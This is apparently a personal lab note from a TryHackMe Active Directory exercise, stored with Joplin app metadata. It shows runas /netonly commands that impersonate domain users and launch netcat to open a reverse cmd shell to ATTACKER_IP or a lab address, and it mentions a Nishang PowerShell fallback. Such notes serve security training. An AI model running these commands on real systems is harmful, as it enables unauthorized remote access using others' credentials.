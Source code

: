 1a. Open CMD shell with other credential

> runas /netonly /user:ZA.TRYHACKME.COM\\t1\_leonard.summers "c:\\tools\\nc64.exe -e cmd.exe ATTACKER\_IP 4443"
> 
> runas /netonly /user:ZA.TRYHACKME.COM\\t1_toby.back5 "c:\\tools\\nc64.exe -e cmd.exe 10.50.61.104 1111"

This is if there is a netcat tool available. Else, we will have to rely on a powershell invoke via Nishang script

> To-be-edited

id: 6895cc172f90401891fc30852930a6f2
parent_id: 0c2846bd3b824b53bfc522d03d0bb20b
created_time: 2022-07-12T09:17:31.072Z
updated_time: 2022-07-19T09:59:10.952Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 621604694364.375
user_created_time: 2022-07-12T09:17:31.072Z
user_updated_time: 2022-07-19T09:59:10.952Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1